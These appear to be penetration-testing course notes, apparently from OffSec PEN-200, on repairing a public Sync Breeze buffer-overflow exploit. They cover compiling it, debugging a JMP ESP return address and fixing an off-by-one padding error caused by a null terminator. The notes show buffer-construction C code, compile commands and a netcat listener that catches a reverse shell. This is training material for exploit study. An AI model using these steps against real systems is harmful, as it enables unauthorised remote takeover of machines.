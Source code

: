 Recompile with

`i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32`

Verifying efficacy with #immunitydebugger 

Attach program and set breakpoint at our JMP ESP address

![Figure 1: Setting a breakpoint at our JMP ESP address](https://static.offsec.com/offsec-courses/PEN-200/imgs/fixing_exploits/eef4489dbfa33e7e1af064e8df1be6a2-fixing_exploits_01.png)

Running the Windows exploit using wine

There was an issue. 

 EIP is overwritten by our return address instruction address misaligned by one byte

![Figure 2: EIP is overwritten by our return address instruction address misaligned by one byte](https://static.offsec.com/offsec-courses/PEN-200/imgs/fixing_exploits/cd398396572fb76d42e782800c768193-fixing_exploits_02.png)

### Changing the Overflow Buffer

Understanding our offset misalignment.

Basically there is an extra null byte being used to convert buffer to a string.

Memset setting the last byte to a null-terminator to convert the buffer into a string

```
memset(padding + initial_buffer_size - 1, 0x00, 1);
```

Creating the final buffer for the exploit

```
char *buffer = malloc(buffer_length);
memset(buffer, 0x00, buffer_length);
strcpy(buffer, request_one);
strcat(buffer, content_length_string);
strcat(buffer, request_two);
strcat(buffer, padding);
strcat(buffer, retn);
strcat(buffer, shellcode);
strcat(buffer, request_three);
```

Because we set padding buffer size to 780 and set the last byte to 0x00, we only get a string of A's = 779 bytes

Fix this misalignment by increasing the requested memory size defined by the _initial_buffer_size_ variable by 1

````
    int initial_buffer_size = 781;
````

Recompile the code and set up netcat listener on port 443 to catch reverse shell.

`i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32`

`sudo nc -lvp 443`

`wine syncbreeze_exploit.exe`

Got reverse shell. 



